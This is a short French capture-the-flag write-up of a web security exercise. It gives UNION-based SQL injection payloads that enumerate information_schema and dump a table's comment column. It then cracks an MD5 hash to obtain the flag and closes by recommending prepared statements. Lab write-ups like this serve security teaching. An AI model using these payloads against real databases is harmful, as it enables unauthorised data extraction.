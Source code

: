Sur la page de recherche de search image, quand on recherche autre choses qu'un id on vois une erreur SQL on comprend qu'il y a une injection SQL à faire.

Après recherche, on trouve `1 OR 1=1 UNION req` pour faire une injection ou req est notre requête perso

Dans la plupart des bases de données, il y a une table `information_schema` qui répertorie les tables et colonnes on fait donc une recherche la dessus

```SQL
	1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Dans cette table trouve que la table list_images contient un champ id, url, title, comment,

Ne pouvant en sélectionner que deux après quelques requêtes on trouve qu'il faut utiliser le commentaire.

```SQL
	1 OR 1=1 UNION SELECT comment, null FROM list_images
```

On va sur https://md5decrypt.net : (md5):1928e8083cf461a51303633093573c46 => albatroz => (sha256)albatroz => the flag

**Comment Eviter**

Protéger les requêtes par des requêtes préparée.

